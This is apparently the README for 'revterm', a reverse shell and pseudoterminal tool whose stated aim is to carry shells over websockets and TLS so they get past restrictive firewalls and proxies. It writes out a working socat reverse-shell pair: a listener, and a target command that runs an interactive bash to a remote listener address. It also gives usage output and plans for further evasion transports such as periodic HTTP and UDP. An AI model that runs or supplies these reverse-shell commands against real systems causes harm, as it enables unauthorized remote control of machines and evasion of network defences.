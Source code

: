 # revterm
Reverse shell / pseudoterminal via multiple and novel transports

The idea is to provide something akin to the following:
- listener: `socat file:$(tty),raw,echo=0 tcp-listen:4444`
- target: `socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:<listener-addr>:4444`

But with different transports, specifically websocket and secure websockets to defeat restrictive firewalls/proxies.

## Usage

```
$ ./revterm-listener.py -h
usage: revterm-listener.py [-h] [--port PORT] [--tty TTY]
                           [--socket | --tls-socket | --websocket | --tls-websocket]

optional arguments:
  -h, --help            show this help message and exit
  --port PORT, -p PORT
  --tty TTY, -y TTY     connect to a different tty
  --socket, -s
  --tls-socket, -t
  --websocket, -w
  --tls-websocket, -x
```

```
$ ./revterm-target.py -h
usage: revterm-target.py [-h] [--host HOST] [--port PORT]
                         [--socket | --tls-socket | --websocket | --tls-websocket]

optional arguments:
  -h, --help            show this help message and exit
  --host HOST, -o HOST
  --port PORT, -p PORT
  --socket, -s
  --tls-socket, -t
  --websocket, -w
  --tls-websocket, -x
```

The following openssl command can be used to generate a self-signed certificate:

`openssl req -x509 -nodes -newkey rsa:4096 -keyout server.key -out server.crt -subj '/CN=localhost'`

Note that public (but not private) ips can (and should) be used in the certificate common name.

## Future work

- More transports, ie periodic http(s) requests for especially restrictive environments
  - Also consider the use of udp or other connection-less protocols
- Work out a mechanism to adjust the pseudoterminal size on the target
  - Including dynamic adjustments via sigwinch
  - Most likely this will be implemented via specially marked packets
